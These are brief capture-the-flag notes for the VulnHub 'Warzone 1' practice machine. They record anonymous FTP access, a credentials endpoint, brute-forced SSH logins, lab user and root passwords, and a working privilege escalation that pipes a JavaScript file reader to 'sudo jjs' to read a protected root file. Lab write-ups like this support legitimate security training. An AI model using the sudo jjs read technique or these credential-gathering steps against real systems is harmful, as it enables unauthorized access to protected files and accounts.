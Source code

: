 - URL: ```https://www.vulnhub.com/entry/warzone-1,589/```

- ftp anonymous
- /console
- GET·AUTH·CREDENTIALS
- http://192.168.0.110:5000/get/auth/credentials
- [22][ssh] host: 192.168.0.110   login: commando   password: c0mmandosArentRea1.!
- captain/Desktop
- captain password: ```_us3rz0ne_F1RE```
- sudo -l: jjs - read /root/.../.c
```echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/Desktop/.crypt/.c"));
while ((line = br.readLine()) != null) { print(line); }' | sudo jjs
```
- b'c2MAArI9HzodWZVdjp8CL5Na/YetD8mpGmOR+zf0zmGeDy7KMsJ5YE3wNPSr4vCc5sV8w+BHq9yd5JHwGPKSuHClFqBUvhf/dSFUEKm9kG7/mPMPYg=='
- root password: ```#i.d0nt.l1ke.w4r#```
